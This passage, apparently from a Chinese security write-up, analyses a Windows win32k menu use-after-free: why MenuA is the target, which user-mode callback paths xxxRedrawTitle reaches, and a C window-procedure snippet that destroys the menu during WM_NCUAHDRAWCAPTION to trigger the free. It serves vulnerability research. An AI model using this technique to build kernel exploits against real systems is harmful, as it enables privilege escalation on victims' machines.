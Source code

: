 这里有个技巧：删除默认菜单项没有任何限制。这意味着我们可以删除默认菜单项并插入我们自定义控制的菜单项，将其放置在菜单树中的任意位置。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOZcjjiblNewboONOzSTlYJc17QtYr0R7CicQcAW3Xa3s8252DUbyXicVicubBpXQxTeDzrrJ6zGp1YFw/640?wx_fmt=png&from=appmsg "")  
  
xxxEnableMenuItem 中的检查  
  
现在，收集所有先决条件后，我们应该创建以下菜单布局：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOZcjjiblNewboONOzSTlYJc17QtYr0R7CicQcAW3Xa3s8252DUbyXicVicubBpXQxTeDzrrJ6zGp1YFw/640?wx_fmt=png&from=appmsg "")  
  
菜单布局  
### 为什么选择 MenuA 作为 UAF 目标？  
  
你可能会问：为什么选择 MenuA 作为 Use-After-Free 的目标？  
  
让我们回顾一下补丁代码和 MNLookupItem  
的实现。v15  
变量持有包含系统保留 ID 的 菜单项  
的子菜单指针。这就是为什么 **MenuA**  
被选中 —— 它是 v15  
直接引用的子菜单。  
  
关键问题在于：  
> **MenuA**  
在回调被调用之前没有增加其引用计数。  
  
### xxxRedrawTitle 中的用户模式回调  
  
现在让我们看看 xxxRedrawTitle  
。该函数中有三个不同的代码路径允许执行进入用户模式：  
1. 通过 xxxDrawCaptionBar  
深入  
  
1. xxxCallHook  
调用用户模式钩子。这些钩子通过 API SetWindowsHookExA 设置  
  
1. xxSendMessage  
是最简单直接的路径 —— 也是我使用的路径  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOZcjjiblNewboONOzSTlYJc17QtYr0R7CicQcAW3Xa3s8252DUbyXicVicubBpXQxTeDzrrJ6zGp1YFw/640?wx_fmt=png&from=appmsg "")  
  
xxxRedrawTitle  
  
要接收 WM_NCUAHDRAWCAPTION  
消息，我们需要为目标 UAF 菜单的窗口创建一个自定义的 WndProc  
。该消息将在重绘期间分派到窗口过程，允许我们在回调中执行代码 —— 并在恰当时刻销毁菜单。  
  
释放菜单的代码可以在以下片段中看到：  
```
LRESULT CALLBACK wndproc(HWND hWnd, UINT msg, WPARAM wParam, LPARAM lParam)
{
    switch(msg) {
        case WM_NCUAHDRAWCAPTION: {

            wprintf(L"[?] wndproc: msg=WM_NCUAHDRAWCAPTION wParam=%x lParam=%x\n", wParam, lParam);

            for (int i = GetMenuItemCount(g_hMenu_Top) - 1; i >= 0; i--) {
                RemoveMenu(g_hMenu_Top, i, MF_BYPOSITION);
            }
            wprintf(L"[+] 5. Destroy Menu\n");
            system("pause");

            DestroyMenu(g_hPopupMenu_A); // Here MenuA will be freed

            ...

            break;
        }
```